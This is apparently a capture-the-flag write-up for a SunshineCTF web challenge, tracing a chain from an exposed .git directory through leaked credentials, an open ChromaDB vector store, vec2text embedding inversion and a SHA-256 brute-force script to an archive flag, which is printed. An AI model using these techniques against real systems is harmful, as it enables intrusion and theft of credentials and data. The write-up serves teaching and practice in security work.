


- Author: ganenjoyer

## Description

VecNet makes use of AI embedding technologies to speed up your database needs. Get started today!

https://vec.web.2026.sunshinectf.games/

## Solution

### Quick overview

We have a given website.



After looking a bit at it, it has a link that redirects to a webmail interface https://vec.web.2026.sunshinectf.games:8025/ which is unreachable due to invalid certificates, but the http version is : it is blocked by a login form that asks for credentials.

I tried different weak credentials combination but nothing worked so it obvious that I had to dig deeper.

### Exposed repository

On the main website, I decided to do some enumeration since I did not have much info, and after trying different common routes, the `.git` was the only one working.

Following this discovery I downloaded the git repository to examine its content.

```sh
wget -r https://vec.web.2026.sunshinectf.games/.git/
```

It looks actually very promising, we have a bunch of files
```sh
ls -a  
.  ..  fetch.php  .git  .gitignore  .htaccess  index.html
```

### Finding 1: specs.7z

In `.htaccess`, we can see that there is a file called specs.7z which direct access is denied.

```py
...
# deny direct access to specs.7z
<FilesMatch "^specs\.7z$">
    Require local
    Require ip 127.0.0.1
</FilesMatch>
```

### Finding 2: fetch.php

The `fetch.php` file is a simple script that enforce the `$_GET['url']` parameter to be exactly `"http://localhost/files/specs.7z"` and if that's the case, returns the content of the `specs.7z`. 

This means we have a way to get this file, even though its direct access is blocked, by crafting a request to the php script with exactly the allowed url : http://vec.web.2026.sunshinectf.games/fetch.php?url=http://localhost/files/specs.7z.

This was a huge discovery because the fetched archive contained a `flag.txt` file. However it was password protected, so I kept it aside for the time being.

### Finding 3: the git history

Checking the git log again revealed critical info : there had been a revert in an attempt to delete secrets!

```log
$ git log
commit e6a00740509b9f621b16980b77913206c43fd08c (HEAD -> master)
Author: Mike <mike@vecnet.io>
Date:   Sat Sep 26 19:10:42 2026 +0000

    add htaccess

commit 130e195fc0a5db75500e229020b13ee45d420500
Author: Mike <mike@vecnet.io>
Date:   Sat Sep 26 19:10:42 2026 +0000

    REVERT: do not commit secrets

...
```

And look what we have here, credentials :
```diff
$ git diff HEAD~2 HEAD~1

[...]

@@ -1,5 +0,0 @@
-<?php
-define('MAIL_ADMIN_URL',  'http://127.0.0.1:8025');
-define('MAIL_ADMIN_USER', 'vecadmin');
-define('MAIL_ADMIN_PASS', 'Emb3dPass2026!');
-define('INTERNAL_API_KEY', 'vsk_live_aX92kLmNpQrStUvWxYz');
```

It turns out it was the credentials we needed to access the Webmail, which was a Mailhog instance.

Let's keep the API Key for later.

### Investigating emails

The webmail inbox contains 3 emails with crucial clues. 



### Emails Finding 1:

The emails mention the existence of a ChromaDB vector database, so-called not exposed to internet, but it turns out that it is exactly the opposite since it is accessible on common ChromaDB ports (8000).

It could be verified using http://vec.web.2026.sunshinectf.games:8000/api/v2/heartbeat

### Emails Finding 2:

There is also a link to a [dev.to](https://dev.to/tiamatenity/vector-database-breaches-how-embeddings-expose-your-sensitive-data-21a9) article about how embeddings (stored in vector databases) expose sensitive data

### Emails Finding 3:

The last finding is that `vec2text` can be used to convert embeddings back to text, using following specifications:
- `num_steps = 4`
- `sequence_beam_width = 5`

### Vectors and Embeddings: the ChromaDB

If you reckon well, we had an API key in the credentials from the git leak (`vsk_live_aX92kLmNpQrStUvWxYz`) which will allow us to access the ChromaDB API.

The first thing I tried was to recover embeddings. After reading a lot of documentation to understand how the API works and doing tests here and there mostly using `curl`

### ChromaDB Finding 1:

The tenant of the ChromaDB is the default one : `default_tenant`  
In this tenant, the database name is the default one : `default_database`
In this database there is a unique collection named `VecNetDB`

### ChromaDB Finding 2:

This database contains 3 records:

`user_password_requirements`, the only embedding we will need to convert
- document: `null`
- embedding_fn: `jxm/gtr__nq__32` (embedding model used ; we will use it for vec2text)
- type: `embedding_only`

`user_hash_sha256`, probably the hash of the password of specs.7z (in plain text, meaning no embedding)
- document: `d8dd241199d2617765d7613fdd1df5358297b55f258647fe463de586bbfe3ebf`
- embedding_fn: `jxm/gtr__nq__32`
- type: `plaintext`

`magic_string`, a magic string we will use later on (in plain text, meaning no embedding)
- document: `sunshinectf8_`
- embedding_fn: `jxm/gtr__nq__32`
- type: `plaintext`


I then wrote and refined a little python script that uses the chromadb python package, here is how it goes:

```py
...

# Initialize connection to the DB
client = chromadb.HttpClient(
    host="vec.web.2026.sunshinectf.games",
    port=8000,
    ssl=False,
    settings=Settings(
        chroma_client_auth_provider="chromadb.auth.token_authn.TokenAuthClientProvider",
        chroma_client_auth_credentials="vsk_live_aX92kLmNpQrStUvWxYz", # from leaked .git
    ),
)

[...]

# Get collection data
collection = client.get_collection(name="VecNetDB")
data = collection.get(include=["embeddings", "documents", "metadatas"])

ids = data["ids"]
documents = data["documents"]
embeddings = data["embeddings"] # this is what we want
```

The next step was to use `pytorch`, `transformers` and `vec2text` package to convert the embeddings back to text. 

```py
# Select embedding we will convert (here it's 0, for user_password_requirements)
target = embeddings[0]

# Convert embedding to pytorch tensor
torch_target = torch.tensor([target], dtype=torch.float32)  # chroma returns float64

# Loading inversion and corrector model
inversion_model = vec2text.models.InversionModel.from_pretrained(
    "jxm/gtr__nq__32",
    low_cpu_mem_usage=False,
    device_map="cpu",
).float()  # else internal embedder loads in float16
corrector_model = vec2text.models.CorrectorEncoderModel.from_pretrained(
    "jxm/gtr__nq__32__correct",
    low_cpu_mem_usage=False,
    device_map="cpu",
).float()

[...]

corrector = vec2text.load_corrector(inversion_model, corrector_model)

# Convert selected embedding to text using vec2text
result = vec2text.invert_embeddings(
    embeddings=torch_target,
    corrector=corrector,
    num_steps=4,            # from email finding #3
    sequence_beam_width=5,  # from email finding #3
)
print(result)
```

The output we got from it was : "The user's first and last initials, three special characters followed by the magic string.".
We can confidently say that this is the archive password structure. 

### Finding the password : the last guardian

The only thing left is to reconstruct the password using what we know about it. 

The user's first and last initials might be `GR` for `Greg Roberts` so to recap, it would be `GR???sunshinectf8_` where `???` are 3 special chars we must find. We also have the password hash `d8dd241199d2617765d7613fdd1df5358297b55f258647fe463de586bbfe3ebf`.

To do so, I wrote the following script to brute-force the missing chars (as well as the first two initials, to be sure instead of guessing GR).

```py
import hashlib
import itertools
import string

TARGET_HASH = "d8dd241199d2617765d7613fdd1df5358297b55f258647fe463de586bbfe3ebf"
SUFFIX = "sunshinectf8_"

LETTERS = string.ascii_uppercase
SPECIALS = string.punctuation

candidates = itertools.product(LETTERS, LETTERS, SPECIALS, SPECIALS, SPECIALS)

digest = ""
for parts in candidates:
    candidate = "".join(parts) + SUFFIX
    digest = hashlib.sha256(candidate.encode()).hexdigest()

    if digest == TARGET_HASH:
        print(f"Found: {candidate}")
        break

if digest != TARGET_HASH:
    print("Nothing found")
```
```
$ python bruteforce.py
Found: GR$*#sunshinectf8_
```

This is it, we have our archive password. We can now extract `flag.txt` and recover the flag for this challenge.

Thanks to `@penomovu` who helped me to conclude this challenge by making the script work since I had a really hard time dealing with pytorch and transformers dependencies which needed a lot of tweaking and patching to work with required setup.

## Flag

<details> 
<summary>Spoiler</summary>

```
sun{k33p_your_emb3ddings_secur3!}
```

</details>

